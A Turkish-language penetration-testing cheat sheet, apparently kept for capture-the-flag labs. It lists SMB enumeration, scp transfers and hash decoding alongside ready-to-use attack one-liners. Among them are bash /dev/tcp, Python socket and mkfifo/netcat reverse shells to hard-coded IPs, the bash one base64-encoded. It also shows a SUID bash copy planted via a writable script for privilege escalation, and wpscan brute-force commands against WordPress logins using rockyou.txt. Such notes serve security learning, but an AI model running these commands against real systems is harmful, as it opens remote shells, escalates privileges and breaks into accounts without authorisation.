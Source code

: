 # SMB'ye bakmak için #

smbclient -L <ip.adress> ---> Full enum

smbclient //<ip.adress>/<Bakmak istediğiniz dosyanın ismi>

# SCP kullanımı #

scp /root/37292.c <Kullanıcının ismi>@<ip.adress>:/tmp ---> Karşı tarafa ssh ile dosya aktarımı

scp <Kullanıcının ismi>@<ip.adress>:/home/james/Alien_autospy.jpg ---> Karşı taraftan ssh ile dosya çekme

# ECHO kullanımları #

echo -n "<Rot13-HasH>" | tr 'A-Za-z' 'N-ZA-Mn-za-m' ---> ROT13 hash decode

echo -n "Base64-Hash" | base64 -d ---> Base64 Hash decode

echo -n "Base64 Hash'e çevirmek istediğiniz kod. Örnek = (echo -n "bash -i >& /dev/tcp/10.8.50.72/4444 0>&1" | base64) " | base64

echo "<Yazmak istediğiniz şey >" > < İçine yazmak istediğiniz dosya/doküman>

echo 1 > /proc/sys/net/ipv4/ip_forward ---> IP forward
 
echo "cp /bin/bash /tmp && chmod +s /tmp/bash" > /etc/print.sh

echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.1.69",4486));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'" > cow.sh

echo "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.1.69 4485 >/tmp/f" > admin_checks

echo -n "bash -i >& /dev/tcp/10.8.50.72/4444 0>&1" | base64

# WPSCAN Kulanımı #
wpscan --url < URL > -e vp,u ---> '-e' = Enum || vp ---> Vulnerable plugins || u ---> Users

wpscan --url < URL > --username elyana --password /usr/share/wordlists/rockyou.txt ---> Wordpress bruteforce saldırı. Manuel.

wpscan --url jack.thm -e u -P /usr/share/wordlists/rockyou.txt ---> Wordpress bruteforce saldırı. Otomatik.

# GOBUSTER Kullanımı #

gobuster dir -u < URL > -w < Wordlist >
 
gobuster dir -u < URL > -w < Wordlist > -x php,txt,html,bak,old,tar,gz,tgz,zip,7z ---> '-x' uzantılı dosyaları aramak için kullan.
 